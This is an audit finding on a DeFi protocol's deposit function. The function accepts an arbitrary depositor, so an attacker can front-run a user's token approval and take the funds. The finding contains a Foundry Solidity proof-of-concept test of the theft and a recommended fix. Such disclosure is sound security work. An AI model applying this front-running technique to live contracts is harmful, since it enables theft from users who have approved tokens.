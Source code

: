 Because the only authorization is on the `position` that will receive the assets and not on the `depositor`, any user who has approved tokens can be passed by an attacker as the depositor, stealing their tokens.

This means any EOA interacting with the protocol (who need to perform the approve and deposit as two separate transactions) are vulnerable to having an attacker jump in between the transactions to steal their funds.

### Proof of Concept

The following test can be dropped into `ScpBorrowTest.t.sol` to demonstrate the attack:
```solidity
function testZach_DepositFrontrun() public {
    // a user with 1e18 tokens
    address user = makeAddr("user");
    erc20Collat.mint(user, 1e18);

    // user approves the position manager in advance of depositing them
    vm.prank(user);
    erc20Collat.approve(address(positionManager), 1e18);

    // an attacker can jump in and steal the tokens for their own position
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);

    uint256 POSITION_TYPE = 0x2;
    bytes32 salt = "AttackerSingleAssetPosition";
    SingleAssetPosition attackerPosition = SingleAssetPosition(portfolioLens.predictAddress(POSITION_TYPE, salt));
    bytes memory newPosData = abi.encode(attacker, POSITION_TYPE, salt);
    Action memory newPosAction = Action({op: Operation.NewPosition, data: newPosData});

    bytes memory depositData = abi.encode(user, address(erc20Collat), 1e18);
    Action memory depositAction = Action({op: Operation.Deposit, data: depositData});

    Action[] memory actions = new Action[](2);
    actions[0] = newPosAction;
    actions[1] = depositAction;

    positionManager.processBatch(address(attackerPosition), actions);

    // now the attacker has the user funds
    assertEq(erc20Collat.balanceOf(address(attackerPosition)), 1e18);
    assertEq(erc20Collat.balanceOf(user), 0);
}
```

### Recommendation

Only allow users to deposit from `msg.sender` rather than allowing them to input an arbitrary depositor.

If it's important to keep the ability to deposit on behalf of another user, use `Permit`-style signature approvals.
